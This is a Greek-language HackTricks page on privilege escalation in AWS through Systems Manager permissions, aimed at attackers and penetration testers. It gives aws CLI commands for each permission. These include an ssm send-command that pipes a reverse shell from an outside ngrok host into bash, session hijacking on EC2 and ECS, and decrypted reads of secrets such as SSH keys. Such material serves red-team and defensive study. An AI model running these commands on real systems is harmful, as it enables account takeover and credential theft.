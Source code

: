 # AWS - Εscalation προνομίων SSM

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## SSM

Για περισσότερες πληροφορίες σχετικά με το SSM ελέγξτε:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ένας επιτιθέμενος με την άδεια **`ssm:SendCommand`** μπορεί να **εκτελέσει εντολές σε παραδείγματα** που εκτελούν το Amazon SSM Agent και **να διακινδυνεύσει τον ρόλο IAM** που εκτελείται μέσα σε αυτό.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Σε περίπτωση που χρησιμοποιείτε αυτήν την τεχνική για την ανάδειξη προνομίων μέσα σε ένα ήδη χειρισμένο παράδειγμα EC2, θα μπορούσατε απλά να αιχμαλωτίσετε το rev shell τοπικά με:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Πιθανή Επίπτωση:** Άμεση ανύψωση προνομίων στους ρόλους IAM του EC2 που συνδέονται με τις ενεργές μηχανές με SSM Agents που τρέχουν.

### `ssm:StartSession`

Ένας επιτιθέμενος με την άδεια **`ssm:StartSession`** μπορεί να **ξεκινήσει μια συνεδρία παρόμοια με SSH στις μηχανές** που τρέχουν το Amazon SSM Agent και **να διακινδυνεύσει τον ρόλο IAM** που τρέχει μέσα σε αυτήν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Για να ξεκινήσετε μια συνεδρία, χρειάζεστε το **SessionManagerPlugin** εγκατεστημένο: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Πιθανή Επίπτωση:** Άμεση αύξηση προνομίων στους ρόλους IAM του EC2 που είναι συνδεδεμένοι σε λειτουργία με SSM Agents ενεργοποιημένα.

#### Αύξηση Προνομίων στο ECS

Όταν τα **ECS tasks** τρέχουν με το **`ExecuteCommand` ενεργοποιημένο**, οι χρήστες με επαρκή δικαιώματα μπορούν να χρησιμοποιήσουν την εντολή `ecs execute-command` για να **εκτελέσουν μια εντολή** μέσα στο container.\
Σύμφωνα με [**την τεκμηρίωση**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), αυτό επιτυγχάνεται δημιουργώντας ένα ασφαλές κανάλι μεταξύ της συσκευής που χρησιμοποιείτε για να ξεκινήσετε την εντολή "_exec_" και του στόχου container με το SSM Session Manager. (Απαιτείται το SSM Session Manager Plugin για να λειτουργήσει)\
Συνεπώς, οι χρήστες με `ssm:StartSession` θα μπορούν να **αποκτήσουν ένα κέλυφος μέσα στα ECS tasks** με αυτήν την επιλογή ενεργοποιημένη απλά εκτελώντας:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Πιθανή Επίπτωση:** Άμεση ανύψωση προνομίων στους ρόλους `ECS`IAM που είναι συνδεδεμένοι σε εκτελούμενες εργασίες με ενεργοποιημένη την `ExecuteCommand`.

### `ssm:ResumeSession`

Ένας επιτιθέμενος με την άδεια **`ssm:ResumeSession`** μπορεί να επανεκκινήσει μια συνεδρία παρόμοια με SSH σε παραδείγματα που εκτελούν το Amazon SSM Agent με μια κατάσταση αποσυνδεδεμένης συνεδρίας SSM και να **θέσει σε κίνδυνο τον ρόλο IAM** που εκτελείται μέσα σε αυτό.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Πιθανή Επίδραση:** Άμεση αύξηση προνομιακών δικαιωμάτων στους ρόλους IAM των EC2 που εκτελούνται με SSM Agents ενεργούς και αποσυνδεδεμένες συνεδρίες.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ένας επιτιθέμενος με τα ανωτέρω δικαιώματα θα μπορεί να καταλογογραφήσει τις **παραμέτρους SSM** και να τις **διαβάσει σε καθαρό κείμενο**. Σε αυτές τις παραμέτρους μπορεί συχνά να **βρει ευαίσθητες πληροφορίες** όπως κλειδιά SSH ή κλειδιά API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Πιθανή Επίδραση:** Εντοπισμός ευαίσθητων πληροφοριών μέσα στις παραμέτρους.

### `ssm:ListCommands`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να εμφανίσει όλες τις **εντολές** που έχουν σταλεί και ελπίζει να βρει **ευαίσθητες πληροφορίες** σε αυτές.
```
aws ssm list-commands
```
**Πιθανή Επίδραση:** Εύρεση ευαίσθητων πληροφοριών μέσα στις γραμμές εντολών.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να καταλογογραφήσει όλες τις **εντολές** που έχουν σταλεί και να **διαβάσει την έξοδο** που παράγεται, ελπίζοντας να βρει **ευαίσθητες πληροφορίες** σε αυτές.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Πιθανή Επίδραση:** Βρείτε ευαίσθητες πληροφορίες μέσα στην έξοδο των γραμμών εντολών.

### Codebuild

Μπορείτε επίσης να χρησιμοποιήσετε το SSM για να μπείτε σε ένα έργο codebuild που χτίζεται:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
